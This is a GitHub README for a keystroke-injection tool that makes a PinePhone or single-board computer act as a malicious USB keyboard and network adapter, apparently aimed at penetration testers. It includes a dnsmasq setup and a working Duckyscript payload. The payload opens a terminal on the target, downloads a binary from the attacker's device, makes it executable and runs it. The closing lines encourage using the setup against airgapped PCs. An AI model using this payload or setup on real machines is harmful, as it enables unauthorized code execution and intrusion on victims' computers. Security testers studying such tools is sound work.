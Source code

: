 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy the binaries to /usr/bin.
Keep in mind you'll need a different 'badusb' binary for each keyboard layout, so copy the one for your keyboard like so:
`sudo cp badusb-[YOUR_LAYOUT] /usr/bin/badusb`

Only en_US and es_ES are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` (you need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling the ecm module of USB Gadget and Mass Storage, so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo badusb duckypayload.txt`


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.0.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running and we also leave the web server running: `python -m http.server`. Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo badusb payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
